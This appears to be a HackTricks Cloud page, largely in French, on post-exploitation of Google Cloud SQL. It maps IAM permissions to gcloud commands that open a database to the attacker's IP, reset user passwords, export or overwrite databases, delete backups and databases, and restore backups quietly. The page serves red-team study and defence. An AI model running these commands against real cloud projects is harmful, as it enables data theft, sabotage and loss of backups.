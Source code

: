 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Pour plus d'informations sur Cloud SQL, consultez :

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Pour se connecter aux bases de données, vous **avez juste besoin d'accéder au port de la base de données** et de connaître le **nom d'utilisateur** et le **mot de passe**, il n'y a pas d'exigences IAM. Donc, un moyen facile d'obtenir l'accès, en supposant que la base de données a une adresse IP publique, est de mettre à jour les réseaux autorisés et **permettre à votre propre adresse IP d'y accéder**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Il est également possible d'utiliser **`--no-backup`** pour **perturber les sauvegardes** de la base de données.

Comme ce sont les exigences, je ne suis pas complètement sûr de ce que sont les permissions **`cloudsql.instances.connect`** et **`cloudsql.instances.login`**. Si vous le savez, envoyez une PR !

### `cloudsql.users.list`

Obtenez une **liste de tous les utilisateurs** de la base de données :
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Cette permission permet de **créer un nouvel utilisateur à l'intérieur** de la base de données :
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Cette permission permet de **mettre à jour un utilisateur à l'intérieur** de la base de données. Par exemple, vous pourriez changer son mot de passe :

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Les sauvegardes peuvent contenir **de vieilles informations sensibles**, il est donc intéressant de les vérifier.\
**Restaurer une sauvegarde** dans une base de données :
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Pour le faire de manière plus discrète, il est recommandé de créer une nouvelle instance SQL et de récupérer les données là-bas au lieu de dans les bases de données actuellement en cours d'exécution.

### `cloudsql.backupRuns.delete`

Cette permission permet de supprimer des sauvegardes :
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exporter une base de données** vers un Cloud Storage Bucket afin que vous puissiez y accéder depuis là :
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importer une base de données** (écraser) depuis un Cloud Storage Bucket :
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Supprimer une base de données de l'instance de base de données :
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
